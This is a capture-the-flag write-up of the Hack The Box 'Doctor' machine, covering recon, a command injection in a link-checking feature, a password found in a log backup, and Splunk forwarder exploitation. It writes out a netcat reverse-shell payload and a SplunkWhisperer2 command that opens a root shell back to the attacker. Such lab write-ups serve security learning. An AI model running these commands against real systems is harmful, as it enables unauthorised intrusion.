




# Doctor Writeup

In this article I am going to be working through the Doctor box from Hackthebox. Doctor is an easy box involving a CURL vulnerability and exploiting Splunk.

## Initial foothold

Start of by running a basic Nmap.

```
# Nmap 7.80 scan initiated Mon Jan 11 12:00:51 2021 as: nmap -sC -sV -oA nmap/doctor_inital 10.10.10.209
Nmap scan report for 10.10.10.209
Host is up (0.19s latency).
Not shown: 997 filtered ports
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http     Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Doctor
8089/tcp open  ssl/http Splunkd httpd
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Splunkd
|_http-title: splunkd
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Not valid before: 2020-09-06T15:57:27
|_Not valid after:  2023-09-06T15:57:27
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

As you can we have 3 ports open: 22, 80, 8089. I start by looking at port 80. After running some recon and falling down a few rabbit holes I notice an email address on the front page of the website `info@doctors.htb`. 


I decided to try adding the hostname (doctors.htb) to my /etc/hosts file in kali. This makes new webpage called "doctor secure messaging service".



Next we make an account with whatever creds you like and I found i had to do this multiple times during my testing as accounts only last 20 minutes. Then I looked at the new message functionality and ran various payloads to test XSS or SSTI during my testing I found that the site exhibited strange behavior when inputting an invalid link the site would tell me whether the link was valid or not.




This means the server is sending a request to the link in question to verify whether or not it exists. Now I took a guess that the server was running curl or another utility to verify this link meaning that I could inject a command into the server side template and therefore gain a reverse shell on the box. After spending a while attempting various payloads (and wanting to hit my head against a wall at times)  I found a command injection that worked and allowed to get a reverse shell.



Now that looks a bit of a mess let's break it down.

+ $() - Allows command substitution so the command is ran when the request is made

+ nc.traditional - Explicitly stating to use the traditional version of netcat see `man nc.traditional`

+ $IFS - a way of representing a space in the terminal (honestly still no idea why this one worked was a hail Mary)

+ `-e /bin/bash` - Telling netcat to run bin/bash when connecting to the host

+ and the rest is self explanatory I think. NOTE: make sure your ip and attacking port are in quotes like in the screen shot or the payload will fail.

  

  Now lets start up a listener on your attacking port using the command `nc -lvnp 666` and run the payload. If you did everything right you'll get a reverse shell as the "web" user.

  

  

  Now i ran various tricks to make my shell fully interactive (these can be  found here: https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/). My first once gaining access to the box was toi view the /home folder and see 2 users: web and shaun. Looking in the the web folder we see nothing particularly interesting. 

  ## Escalating to User 

  Therefore our next move is to gain access to the shaun user account. In order i'm going to run the Linux variant of the Privilege Escalation Awesome Scripts Suite (which can be found here: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/linPEAS/linpeas.sh). This script gives us a lot of output and I spent looking through the various things it highlighted. The finding in particular that's useful to us is the there are apache log files which are owned by root but, readable to our current  user.

  ```
  [+] Readable files belonging to root and readable by me but not world readable
  -rw-r----- 1 root adm 92 Sep 28 12:12 /var/log/cups/error_log.1                                                                                            
  -rw-r----- 1 root adm 4736 Jan 12 16:16 /var/log/cups/access_log.1
  -rw-r----- 1 root adm 202 Sep 17 00:00 /var/log/cups/access_log.7.gz
  -rw-r----- 1 root adm 256 Sep 23 10:46 /var/log/cups/access_log.3.gz
  -rw-r----- 1 root adm 809 Jan 12 22:19 /var/log/cups/error_log
  -rw-r----- 1 root adm 267 Sep 23 15:42 /var/log/cups/access_log.2.gz
  -rw-r----- 1 root adm 118 Sep 15 11:56 /var/log/cups/error_log.2.gz
  -rw-r----- 1 root adm 109 Aug 13 08:13 /var/log/cups/error_log.3.gz
  -rw-r----- 1 root adm 0 Jan 12 16:16 /var/log/cups/access_log
  -rw-r----- 1 root adm 204 Sep 18 00:00 /var/log/cups/access_log.6.gz
  -rw-r----- 1 root adm 190 Sep 19 00:00 /var/log/cups/access_log.5.gz
  -rw-r----- 1 root adm 219 Sep 22 10:40 /var/log/cups/access_log.4.gz
  -rw-r----- 1 root adm 476 Sep  7 17:46 /var/log/apache2/error.log.10.gz
  -rw-r----- 1 root adm 460 Sep 15 00:00 /var/log/apache2/error.log.9.gz
  -rw-r----- 1 root adm 270 Aug 18 12:48 /var/log/apache2/access.log.11.gz
  -rw-r----- 1 root adm 5221534 Jan 12 21:50 /var/log/apache2/error.log
  -rw-r----- 1 root adm 21578 Sep 17 16:23 /var/log/apache2/backup
  -rw-r----- 1 root adm 1493 Sep 23 15:20 /var/log/apache2/access.log.2.gz
  -rw-r----- 1 root adm 424 Sep 18 00:00 /var/log/apache2/error.log.6.gz
  -rw-r----- 1 root adm 3551 Sep 28 15:07 /var/log/apache2/error.log.1
  -rw-r----- 1 root adm 6626 Sep 28 15:02 /var/log/apache2/access.log.1
  -rw-r----- 1 root adm 230 Aug 21 13:07 /var/log/apache2/error.log.14.gz
  -rw-r----- 1 root adm 846 Sep 22 13:03 /var/log/apache2/error.log.3.gz
  -rw-r----- 1 root adm 352 Sep 19 00:00 /var/log/apache2/error.log.5.gz
  -rw-r----- 1 root adm 45599044 Jan 12 21:50 /var/log/apache2/access.log
  -rw-r----- 1 root adm 384 Sep 14 10:07 /var/log/apache2/access.log.6.gz
  -rw-r----- 1 root adm 3018 Sep  7 17:24 /var/log/apache2/access.log.7.gz
  -rw-r----- 1 root adm 1338 Sep  6 22:46 /var/log/apache2/access.log.8.gz
  -rw-r----- 1 root adm 428 Sep 17 00:00 /var/log/apache2/error.log.7.gz
  -rw-r----- 1 root adm 1266 Sep  5 11:58 /var/log/apache2/access.log.9.gz
  -rw-r----- 1 root adm 655 Sep 22 10:40 /var/log/apache2/error.log.4.gz
  -rw-r----- 1 root adm 629 Sep 16 00:00 /var/log/apache2/error.log.8.gz
  -rw-r----- 1 root adm 3951 Sep 22 12:58 /var/log/apache2/access.log.3.gz
  -rw-r----- 1 root adm 1341 Sep 19 19:17 /var/log/apache2/access.log.4.gz
  -rw-r----- 1 root adm 1092 Sep 23 15:42 /var/log/apache2/error.log.2.gz
  -rw-r----- 1 root adm 341 Sep  5 00:00 /var/log/apache2/error.log.13.gz
  -rw-r----- 1 root adm 680 Sep  5 11:58 /var/log/apache2/error.log.12.gz
  -rw-r----- 1 root adm 323 Aug 21 13:00 /var/log/apache2/access.log.10.gz
  -rw-r----- 1 root adm 537 Sep  6 22:47 /var/log/apache2/error.log.11.gz
  -rw-r----- 1 root adm 664054 Sep 15 14:27 /var/log/apache2/access.log.5.gz
  -rw-r----- 1 root adm 320 Sep  6 16:29 /var/log/apt/term.log.1.gz
  -rw-r----- 1 root adm 2932 Aug 13 09:16 /var/log/apt/term.log.2.gz
  -rw-r----- 1 root adm 0 Sep  7 12:13 /var/log/apt/term.log
  ```

  Looking at this information I navigate to `/var/log`and run a basic `ls -al` to check whether there are any files the scripts may have missed or if I should start looking through the logs. As I don't see anything immediately I started looking through the log files. Eventually I got to the apache 2 folder which contained a file named backup this is not a  automatically generated log file. Looking in this file I see a bunch of network logs. Documenting requests sent to the server. using grep on this file to filter the term password shows us a request where a user has written what we can assume to their  password in the email field of the password reset request giving us the password in plain text.

  ```
  web@doctor:/var/log/apache2$ cat backup | grep password 
  10.10.14.4 - - [05/Sep/2020:11:17:34 +2000] "POST /reset_password?email=Guitar123" 500 453 "http://doctor.htb/reset_password" 
  ```

   

  Trying to login to shaun using the su command with this password gains us access to the shaun user and with it the user.txt flag.

  ```
  shaun@doctor:~$ wc -c user.txt
  33 user.txt
  ```

  ## Escalating to root

  Now we have access to the shaun user we need to access root. So I look back at all my recon from earlier and the one thing stands out is the Splunk service. First of all I run `ps aux` to see if the Splunk service is running as root.

  ```
  shaun@doctor:~$ ps aux | grep splunk
  root        1136  0.2  2.3 274128 93292 ?        Sl   16:16   0:56 splunkd -p 8089 start
  root        1138  0.0  0.3  77664 15900 ?        Ss   16:16   0:00 [splunkd pid=1136] splunkd -p 8089 start [process-runner]
  root      101592  0.0  0.0   2608   604 ?        S    16:47   0:00 /bin/sh -c /opt/splunkforwarder/etc/apps/_PWN_APP_/bin/pwn.bat
  root      101593  0.0  0.0   2608   604 ?        S    16:47   0:00 /bin/sh /opt/splunkforwarder/etc/apps/_PWN_APP_/bin/pwn.bat
  shaun    1456900  0.0  0.0  17668   664 pts/2    S+   23:02   0:00 grep --color=auto splunk
  
  ```

  As we can see from the command out both splunk and forwarder are running as root. After a quick google search I find that there is a remote code execution exploit for the splunk forwarder if we can successfully exploit this we will be to gain root access. Luckily there is a handy python script on github to be able to  exploit this (it can found here: https://github.com/cnotin/SplunkWhisperer2). using this script and the credentials we have already we able to get root access.

  ```
  python3 PySplunkWhisperer2_remote.py --host 10.10.10.209 --lhost <YOUR IP> --lport <LISTENING PORT> --username shaun --password Guitar123 --payload "nc.traditional -e /bin/sh '<YOUR IP>' '<ATTACKING PORT>'"
  ```

  So, a quick breakdown of this command: You want to put the host of the machine, your IP so the script can connect back to you, a listening port as the script opens a web server to communicate with Splunk and finally the payload is the same one we used for the initial foothold earlier in the box.

  With that we have root access to the box and can get the root.txt flag!!

  ```
  root@doctor:/root# wc -c root.txt
  33 root.txt
  ```

  

  In conclusion this was a fun box where i learned a lot. The initial foothold was definitely the most difficult part of the box and I think  I'll take some things I learned and use them in the future. With that said i hope you enjoyed this writeup and happy hacking :). 

   

